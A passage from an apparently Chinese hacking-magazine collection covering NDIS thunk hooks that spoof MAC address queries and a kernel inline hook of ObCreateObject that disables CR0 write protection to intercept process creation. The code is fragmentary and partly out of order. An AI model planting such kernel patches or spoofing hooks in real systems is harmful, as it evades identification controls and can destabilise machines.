    IN UINT MediumArraySize,
    IN NDIS_HANDLE MiniportAdapterHandle,
    IN NDIS_HANDLE WrapperConfigurationContext
);
```

这样我们就要挂钩两个函数，并且还需要挂钩相关的 DeInitialize 函数来释放用于存放这个 Map 的数据。此处我们将利用一个技巧来避免繁琐的挂钩操作。首先定义一个叫做 TThunk 的结构用于存放机器码：

```c
#pragma pack(push,1)
struct TThunk
{
    UCHAR popeax;
    UCHAR push;
    ULONG addr;
    UCHAR pusheax;
    UCHAR push2;
    ULONG addr2;
    UCHAR ret;
};
#pragma pack(pop)
```

然后在我们的回调挂钩函数中写入以下代码：

```c
NDIS_STATUS NTAPI MyNdisMRegisterMiniport(
    NDIS_HANDLE NdisWrapperHandle,
    IN PNDIS_MINIPORT_CHARACTERISTICS MiniportCharacteristics,
    IN UINT CharacteristicsLength)
{
    // if(Status == NDIS_STATUS_SUCCESS)
    TThunk *Thunk = (TThunk*)ExAllocatePool(NonPagedPool,32);
    Thunk->popeax = 0x58;
    Thunk->push = 0x68;
    Thunk->addr = (ULONG)MiniportCharacteristics->QueryInformationHandler;
    Thunk->pusheax = 0x50;
    Thunk->push2 = 0x68;
    Thunk->addr2 = (ULONG)MyMiniportQueryInformation;
    Thunk->ret = 0xC3;
    MiniportCharacteristics->QueryInformationHandler = (W_QUERY_INFORMATION_HANDLER)Thunk;
}
```

```c
NDIS_STATUS Status =
    DNdisMRegisterMiniportTrampolineFunc(
        NdisWrapperHandle,
        MiniportCharacteristics,
        CharacteristicsLength);
DbgPrint("MyNdisMRegisterMiniport Status = 0x%08X\n", Status);
return Status;
```

这段代码仅仅是生成一段 x86 机器码，并把这段机器码的入口替换为 `MiniportCharacteristics->QueryInformationHandler`，这样当调用 `MiniportCharacteristics->QueryInformationHandler` 的时候，会首先执行我们生成的机器码，然后再调用原始例程并返回。

我们来看看这段机器码。首先使用 `pop eax` 将调用者的返回地址从 `Stack` 弹出放到寄存器 `eax` 中（`call` 在 x86 中调用目标函数时，进入目标函数时 `Stack` 顶端放置的是函数的返回地址），然后将原始的 `QueryInformationHandler` 通过 `push` 指令压到 `Stack` 中，把刚才弹到 `eax` 的函数地址再次放入 `Stack` 顶端，最后为了避免修正 `jmp` 的 `Relative Address` 的麻烦，使用 `push imm32 / ret` 的方法将我们的回调 `MyMiniportQueryInformation` 放入并跳到该地址，于是这个时候在 `MyMiniportQueryInformation` 入口，我们的栈的内容如下：

```text
Stack top
Esp + 0   Caller Returning Address Of QueryInformationHandler
Esp + 4   Origin Address Of QueryInformationHandler
Esp + 8   Arg0 --> MiniportAdapterContext
Esp + C   Arg1 --> OID
Bottom
```

因此，我们就要声明自己的以下函数：

```c
NDIS_STATUS NTAPI
MyMiniportQueryInformation(
    TMiniportQueryInformation * PrevMiniportQueryInformation,
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded)
```

相比原来的，仅仅是多了一个原始函数的参数——其他不变，这样我们就可以直接调用到原始函数而不需要通过 `Map` 等方法查询了，具体实现代码如下：

```c
NDIS_STATUS Status =
    PrevMiniportQueryInformation(
        MiniportAdapterContext,
        Oid,
        InformationBuffer,
        InformationBufferLength,
        BytesWritten,
        BytesNeeded);

DbgPrint("Status=0x%08X PrevMiniportQueryInformation=0x%08X MyMiniportQueryInformation Oid=0x%08X\n",
         Status, PrevMiniportQueryInformation, Oid);

if (Status == NDIS_STATUS_SUCCESS) {
    if (Oid == OID_802_3_PERMANENT_ADDRESS ||
        Oid == OID_802_3_CURRENT_ADDRESS) {
        PUCHAR P = (PUCHAR)InformationBuffer;
        DbgPrint("Mac: %02X %02X %02X %02X %02X %02X\n",
                 P[0], P[1], P[2], P[3], P[4], P[5]);
        *BytesWritten = sizeof(Mac);
        memcpy(InformationBuffer, Mac, sizeof(Mac));
        // return NDIS_STATUS_SUCCESS
    }
}
return Status;
```

我们首先调用原始函数，如果函数成功，检索是否是我们需要的 `Oid` 请求，如果是就过滤掉。最后我们需要把自己的 Hook 代码驱动安装在网卡驱动初始化之前，如何实现就留给大家来发挥了。

我们用简单的几十行代码就完成了对 MAC 地址的过滤，但这仅仅能够欺骗上层驱动和用户态通过相关函数来获取 MAC 地址的方法。真正的网卡与交换机交换的时候的 MAC 地址，我们在不借助网卡驱动的情况下是无法直接修改的。下面继续用 `Sample NIC Driver` 代码来说明问题：

```c
// Read NetworkAddress registry value
// Use it as the current address if any.
if (Status == NDIS_STATUS_SUCCESS) {
    NdisReadNetworkAddress(...);
}
```

```c
...
if ((Status == NDIS_STATUS_SUCCESS) &&
    (Length == ETH_LENGTH_OF_ADDRESS)) {
    if ((ETH_IS_MULTICAST(NetworkAddress)) ||
        ETH_IS_BROADCAST(NetworkAddress) ||
        ETH_IS_LOCALLY_ADMINISTERED(NetworkAddress)) {
        DBGPRINT(MP_ERROR,
            ("Overriding NetworkAddress is invalid - %02x-%02x-%02x-%02x-%02x-%02x\n", ...));
    } else {
        ETH_COPY_NETWORK_ADDRESS(Adapter->CurrentAddress, NetworkAddress);
        Adapter->bOverrideAddress = TRUE;
    }
}
Status = NDIS_STATUS_SUCCESS;
```

这里网卡通过读取注册表来重写 `CurrentAddress`，换言之，如果网卡不提供这个选项，我们就永远无法修改 `CurrentAddress`。

而 `CurrentAddress` 来自以下代码：

```c
if (Adapter->bOverrideAddress) {
    ETH_COPY_NETWORK_ADDRESS(Adapter->CurrentAddress,
                             Adapter->PermanentAddress);
}
```

而这个 `PermanentAddress` 则来自以下代码：

```c
// Read node address from the EEPROM
for (i = 0; i < ETH_LENGTH_OF_ADDRESS; i += 2) {
    usValue = ReadEeprom(...);
    *((PUSHORT)(&Adapter->PermanentAddress[i])) = usValue;
}
```

但无论是 `Adapter` 数据结构的偏移，还是 EEPROM 的数据偏移和地址都只有厂商自己知道，在软件层是没有办法修改的。从技术上，我们可以通过 Patch 相应的网卡驱动来实现地址的修改，但这就没有一个比较通用或者挂钩的办法来实现了。

本文的主要目的在于给读者对 NDIS 结构层的一个概括，以及系统对于 MAC 地址查询请求的处理及其与网卡的交互；另外，本文比较取巧的挂钩方式也为这类应用提供了很大的方便。（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）。

前置知识：VC

关键词：Hook、ObCreateObject、进程创建

##### Hook ObCreateObject，实时监控进程创建



文/图 腾袭

目前比较通用的拦截进程的方法有许多种，像 SSDT Hook NtCreateProcessEx、Inline Hook ObReferenceObjectByHandle 等方法来实现拒绝进程的创建，不过现在网上流传的方法与 Ring3 都不具有很好的交互性，一般都是被动地全部拒绝。现在，笔者就来谈谈一种以链表的形式存储信息、与 Ring3 交互的方式，实现实时监控进程创建。鉴于像 Hook ObReferenceObjectByHandle 等方法已经在网上被广泛运用，这里笔者介绍另一种方法来实现拦截进程创建。

```c
DesiredAccess, ObjectAttributes,
ParentProcess,
InheritObjectTable, SectionHandle,
DebugPort,
ExceptionPort,
return Status;
}
```

##### 原理

我们首先来看看 Windows 进程的创建过程，这样有助于我们选择一个适合的函数来 Hook。首先是 CreateProcess，在非 Unicode 的环境下，CreateProcess 调用的是 CreateProcessA，实际上 CreateProcessA 只是把 ASCII 字符串转换成 Unicode 字符串然后就调用 CreateProcessW。而在 Unicode 的环境下，CreateProcess 调用的就直接是 CreateProcessW。紧接下来，在 CreateProcessW 中经过一系列的处理后，我们可以发现接下来它调用了 NtCreateProcess：

从 NtCreateProcess 的源码中我们可以发现它调用了 PspCreateProcess，不过由于这个函数是未导出函数，Hook 起来有点麻烦，所以我们接着往下看：

```c
NTSTATUS STDCALL
NtCreateProcess(OUT PHANDLE ProcessHandle,
 IN ACCESS_MASK DesiredAccess,
 IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
 IN HANDLE ParentProcess,
 IN BOOLEAN InheritObjectTable,
 IN HANDLE SectionHandle OPTIONAL,
 IN HANDLE DebugPort OPTIONAL,
 IN HANDLE ExceptionPort OPTIONAL)
{
 KPROCESSOR_MODE PreviousMode;
 NTSTATUS Status = STATUS_SUCCESS;
 PAGED_CODE();
 PreviousMode = ExGetPreviousMode();
 if (PreviousMode != KernelMode) { ... }
 if (ParentProcess == NULL) {
   Status = STATUS_INVALID_PARAMETER;
 } else {
   Status = PspCreateProcess(ProcessHandle, ...);
 }
}
```

```c
NTSTATUS
PspCreateProcess(OUT PHANDLE ProcessHandle,
 IN ACCESS_MASK DesiredAccess,
 IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
 IN HANDLE ParentProcess OPTIONAL,
 IN BOOLEAN InheritObjectTable,
 IN HANDLE SectionHandle OPTIONAL,
 IN HANDLE DebugPort OPTIONAL,
 IN HANDLE ExceptionPort OPTIONAL)
{
 PreviousMode = ExGetPreviousMode();
 if (ParentProcess != NULL) {
   Status = ObReferenceObjectByHandle(ParentProcess, ...);
 } else {
   pParentProcess = NULL;
 }
 if (SectionHandle != NULL) {
   Status = ObReferenceObjectByHandle(SectionHandle, ...);
 }
}
```

```c
MmSectionObjectType, PreviousMode,
(PVOID*)&SectionObject, NULL);
...
Status = ObCreateObject(PreviousMode,
    PsProcessType, ObjectAttributes,
    PreviousMode, NULL,
    sizeof(EPROCESS), 0, 0, (PVOID*)&Process);
...
KProcess = &Process->Pcb;
RtlZeroMemory(Process, sizeof(EPROCESS));
Status = PsCreateCidHandle(Process,
    PsProcessType, &Process->UniqueProcessId);
...
Process->DebugPort = pDebugPort;
Process->ExceptionPort = pExceptionPort;
...
KeInitializeDispatcherHeader(&KProcess->
    DispatcherHeader,
    ProcessObject,
    sizeof(EPROCESS), FALSE);
```

```c
in KPROCESSOR_MODE ProbeMode,
// 决定是否要验证参数
in POBJECT_TYPE ObjectType,
// 对象类型指针
in POBJECT_ATTRIBUTES ObjectAttributes,
// 对象的属性，最终会转化成 ObAllocateObject 需要的 OBJECT_CREATE_INFORMATION 结构
in KPROCESSOR_MODE OwnershipMode,
inout_opt PVOID ParseContext,
in ULONG ObjectBodySize,
// 对象体大小
in ULONG PagedPoolCharge,
in ULONG NonPagedPoolCharge,
out PVOID *Object
// 接收对象体的指针
);
```

再看看 PspCreateProcess 调用 ObCreateObject 的方式：

```c
Status = ObCreateObject(PreviousMode,
    PsProcessType, ObjectAttributes,
    PreviousMode, NULL,
    sizeof(EPROCESS), 0, 0, (PVOID*)&Process);
```

从中我们可以看出创建进程时 `ObjectType` 为 `PsProcessType`，接下来就是实现 Hook 了：

```c
// Hook
void unit0()
{
    KIRQL oldIrql = KeRaiseIrqlToDpcLevel();

    __asm{
        cli
        push eax
        mov eax, cr0
        and eax, 0FFFEFFFFh
        mov cr0, eax
        pop eax
    }

    RtlCopyMemory(ProxyFuncData, HookFunc, 5);
    ProxyFuncData[5] = 0xe9;
    *(PULONG)(&ProxyFuncData[6]) = (ULONG)HookFunc - (ULONG)(&ProxyFuncData) - 5;
    *PUCHAR(HookFunc) = 0xe9;
    *PULONG((ULONG)HookFunc + 1) = (ULONG)FakeFunc - (ULONG)HookFunc - 5;
}
```

从 PspCreateProcess 的部分源码中我们可以看到它调用了 ObReferenceObjectByHandle、ObCreateObject、PsCreateCidHandle、KeInitializeDispatcherHeader 等一系列函数，这里通过比较，笔者选择了 Inline Hook ObCreateObject。

综上所述，可将过程简化为 `[CreateProcessW() -> NtCreateProcess() -> PspCreateProcess() -> ObCreateObject()]`。

##### 实现

选择好了函数，我们就开始做准备 Hook 了，先看看 ObCreateObject 的原型吧：

```c
NTSTATUS
ObCreateObject(
```

```c
__asm
{
    push eax
    mov eax, cr0
    or eax, 10000h
    mov cr0, eax
    pop eax
    sti
}

KeLowerIrql(oldIrql);
uListCount = 0;
uIndex = 0;

void uUnInit()
{
    KIRQL oldIrql;
    KillList();
    oldIrql = KeRaiseIrqlToDpcLevel();
    __asm
    {
        cli
        push eax
        mov eax, cr0
        and eax, 0FFFEFFFFh
        mov cr0, eax
        pop eax
    }

    RtlCopyMemory(HookFunc, ProxyFuncData, ...);

    __asm
    {
        push eax
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
        pop eax
        sti
    }

    KeLowerIrql(oldIrql);
}
```

相信 Hook 大家都已经比较熟悉了，这里就不做过多的介绍，继续往下走。我们要实现实时拦截就需要做到与 Ring3 的实时通信，用 Event 的方式是比较简单的，我们首先从 Ring3 中传入 Event：

```c
switch(uIoControlCode)
{
case IOCTL_SETEVENT:
    if(pIoBuffer == NULL || uInSize < sizeof(HANDLE))
    {
        dprint("Set Event Error\n");
        status = STATUS_INVALID_BUFFER_SIZE;
        break;
    }

    hEvent = *(HANDLE*)pIoBuffer;
    status = ObReferenceObjectByHandle(
        hEvent,
        GENERIC_ALL,
        NULL,
        KernelMode,
        (void**)&g_pEventObject,
        &objHandleInfo);
    break;
}
```

使用全局变量 `g_pEventObject` 来保存得到的 Event，然后我们想要把数据传回 Ring3 必须要有个结构：

```c
typedef struct _CHProcessData{
    ULONG uProcessId;
    ULONG uThreadId;
    UCHAR szCHProcessName[33];
} CHProcessData;

typedef struct _RProcessData{
    ULONG uIndex;
    CHProcessData pd;
} RProcessData;
```

接下来，因为可能会同时有多个进程创建，我们为了避免多次创建进程时把原来保存的数据覆盖掉，便需要建立一个链表来保存数据，并且可以使用 Event 来唤醒和等待 Ring3 传回的数据：

```c
typedef struct _CHDataList{
    ULONG index;              // 索引
    KEVENT kEvent;            // 事件
    BOOLEAN bAllow;           // 是否允许创建
    CHProcessData pd;
    struct _CHDataList *next;
} CHDataList;
```

```c
// CHDataList;

ULONG uListCount;
ULONG uIndex;

CHDataList* DataList;
CHDataList* dCurrList;

UCHAR ProxyFuncData[10];

BOOLEAN KeSleep(ULONG MillionSecond)
{
    NTSTATUS st;
    LARGE_INTEGER DelayTime;
    DelayTime = RtlConvertLongToLargeInteger(10000 * MillionSecond);
    st = KeDelayExecutionThread(KernelMode, FALSE, &DelayTime);
    return (NT_SUCCESS(st));
}

CHDataList* InsertList()
{
    CHDataList* tlCurr;

    if (uListCount == 0)
    {
        DataList = (CHDataList*)kmalloc(sizeof(CHDataList));
        if (DataList == NULL)
            return NULL;

        tlCurr = DataList;
        uIndex = 0;
    }
    // 只有一个节点，就重置索引位
    else
    {
        CHDataList* tList = DataList;
        while (tList->next != NULL)
        {
            tList = tList->next;
        }

        tList->next = (CHDataList*)kmalloc(sizeof(CHDataList));
        if (tList->next == NULL)
            return NULL;

        tlCurr = tList->next;
    }

    uListCount++;
    uIndex++;
}
```

```c
KeInitializeEvent(&tlCurr->kEvent, NotificationEvent, FALSE);
tlCurr->index = uIndex;
tlCurr->bAllow = FALSE;
tlCurr->next = NULL;

return tlCurr;
}

void DeleteList(CHDataList* tlCurr)
{
    // 删除链表节点
    uListCount--;
    if (uListCount != 0)
    {
        if (DataList == tlCurr)
            DataList = DataList->next;
        else
        {
            // 重新检索链表，因为有可能上一个已经被 free 了
            CHDataList* tList = DataList;
            while (tList->next != tlCurr)
            {
                tList = tList->next;
            }
            tList->next = tlCurr->next;
        }
    }

    KeClearEvent(&tlCurr->kEvent);
    kfree(tlCurr);
}

void KillList()
{
    // 安全移除剩下链表
    while (uListCount > 0)
    {
        DataList->bAllow = TRUE;
        KeSetEvent(&DataList->kEvent, IO_NO_INCREMENT, FALSE);
        KeSleep(500);
        // 防止过快带来的一些问题
    }
}
```

对链表的处理看完了，我们看看在伪函数中的处理及一些相关的定义：

```c
#define ObCO_Parameters __in KPROCESSOR_MODE ProbeMode, \
```

```c
POBJECT_TYPE ObjectType,
POBJECT_ATTRIBUTES ObjectAttributes,
KPROCESSOR_MODE OwnershipMode,
PVOID ParseContext,
ULONG ObjectBodySize,
ULONG PagedPoolCharge,
ULONG NonPagedPoolCharge,
PVOID *Object

NTKERNELAPI NTSTATUS ObCreateObject(ObCO_Parameters);

typedef NTSTATUS (*ProxyFuncType)(ObCO_Parameters);

#define HookFunc ObCreateObject
#define ProxyFunc ((ProxyFuncType)ProxyFuncData)
#define FakeFunc FakeObCreateObject

NTSTATUS FakeObCreateObject(ObCO_Parameters)
{
    // ...
    if (ObjectType == *PsProcessType && g_pEventObject != NULL) {
        BOOLEAN bAllow;
        CHDataList* tlCur = InsertList();
        if (tlCur == NULL)
            return STATUS_INVALID_HANDLE;

        // 获取基本信息
        tlCur->pduProcessId = (ULONG)PsGetCurrentProcessId();
        tlCur->pduThreadId  = (ULONG)PsGetCurrentThreadId();
        strcpy((char*)tlCur->pd.szCHProcessName,
               (const char*)PsGetProcessImageFileName(PsGetCurrentProcess()));
    }
}
```

```c
tlCurList = tlCur;

KeSetEvent(g_pEventObject, 0, FALSE);
KeWaitForSingleObject(&tlCurList->kEvent, Executive, KernelMode, FALSE, NULL);

// 看是否允许创建
bAllow = tlCur->bAllow;
DeleteList(tlCur);

if (bAllow == FALSE) {
    return STATUS_CTX_GRAPHICS_INVALID;
}

return ProxyFunc(ProbeMode, ObjectType, ObjectAttributes,
                 OwnershipMode, ParseContext, ObjectBodySize,
                 PagedPoolCharge, NonPagedPoolCharge, Object);
```

还有一些和 Ring3 互动的过程，用于 Ring3 获取数据和传回数据的：

```c
case IOCTL_TEST:
{
    dprint("[CPF] Call IOCTL_TEST");

    if (pIoBuffer == NULL || uInSize < sizeof(ULONG) * 2) {
        dprint("IOCTL_TEST Error\n");
        status = STATUS_INVALID_BUFFER_SIZE;
        break;
    }

    tList = DataList;

    // 以索引为标志
    while (tList->index != ((PULONG)pIoBuffer)[0]) {
        tList = tList->next;
    }

    tList->bAllow = ((PULONG)...);
}
```

```cpp
pIoBuffer[1] = 0;
KeSetEvent(&tList->kEvent, IO_NO_INCREMENT, FALSE);

status = STATUS_SUCCESS;
break;

case IOCTL_GETDATA:
{
    if (pIoBuffer == NULL || uOutSize < sizeof(RProcessData))
    {
        status = STATUS_INVALID_BUFFER_SIZE;
        break;
    }

    ((RProcessData*)pIoBuffer)->index = dCurrList->index;
    RtlCopyMemory(&((RProcessData*)pIoBuffer)->pd, &(dCurrList->pd), sizeof(RProcessData));

    status = STATUS_SUCCESS;
    break;
}
```

```cpp
delete pRpd;
DeviceIoControl(gh_Device, IOCTL_TEST, data, 8, NULL, 0, &dwOutput, NULL);
return 0;
}

DWORD WINAPI WaitThread(LPVOID lpParam)
{
    HANDLE m_hEvent = *(HANDLE*)lpParam;
    unsigned long i = 0;
    ULONG dwOutput = 0;
    RProcessData *pRpd;
    while (true)
    {
        i++;
        WaitForSingleObject(m_hEvent, INFINITE);
        // 等待 ring0 事件重发
        pRpd = new RProcessData;
        DeviceIoControl(gh_Device, IOCTL_GETDATA, NULL, 0, pRpd, sizeof(RProcessData), &dwOutput, NULL);
        HANDLE hThread = CreateThread(NULL, NULL, WorkThread, pRpd, NULL, NULL);
        printf("KeSetEvent called: %d\n", i);
        ResetEvent(m_hEvent);
        // 重置事件
    }
    return 0;
}

int main(int argc, char **argv)
{
    // 加载驱动的大家都知道
    if (initDriver() == -1)
    {
        fprintf(stderr, "Failed to initialize driver.\n");
        scanf("%c");
        return 1;
    }

    DWORD dwOutput;
    HANDLE m_hEvent = CreateEvent(NULL, FALSE, FALSE, NULL);
    // 创建事件
    DeviceIoControl(gh_Device, IOCTL_SETEVENT, &m_hEvent, sizeof(HANDLE), NULL, 0, &dwOutput, NULL);
    // 发事件给 Ring0

    printf("IoControl code sent.\n");
    HANDLE hThread = CreateThread(NULL, NULL, WaitThread, &m_hEvent, NULL, NULL);
}
```

看完 Ring0 的关键部分，我们看看 Ring3 的关键部分吧！

```cpp
// 等待用户选择
DWORD WINAPI WorkThread(LPVOID lpParam)
{
    ULONG data[2];
    ULONG dwOutput = 0;
    RProcessData *pRpd = (RProcessData*)lpParam;
    char szInfo[512];

    wsprintf(szInfo, "PID: %d TID: %d\n进程: %s\n尝试创建进程是否允许",
             pRpd->pd.uProcessId,
             pRpd->pd.uThreadId,
             pRpd->pd.szCHProcessName);

    data[0] = pRpd->index;
    if (MessageBox(NULL, szInfo, "进程创建确认", MB_YESNO | MB_ICONQUESTION | MB_SETFOREGROUND) == IDYES)
    {
        data[1] = 1;
    }
    else
    {
        data[1] = 0;
    }
}
```





这里我们要注意一下，要关闭程序时不能点控制台右上角的关闭按钮来关，我们要按一下回车键，因为我们需要把驱动卸载了。大家也可以修改代码来避免这个麻烦的问题，否则在重启前可能就无法创建进程了！效果图如图 1 所示。

图 1

（Ring3 代码在 VC 6 下编译通过，Ring0 代码在 WDK7 + VS 2010 下编译通过，Windows 7 32 位下调试通过（需要管理员权限）。）



##### 小结

通过这次的 Hook，相信大家一定对 Hook 有了更加深入的了解。我们用的这种方法与 Ring3 无关，还可以推广应用到更多函数的 Hook，像注册表关键位置修改时需要用户确认等，这就交给读者去进一步地探究了！

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

---

前置知识：VC  
关键词：编程，Hook，Rootkit，寄存器

#### Linux 下利用调试寄存器进行 Hook 系统调用

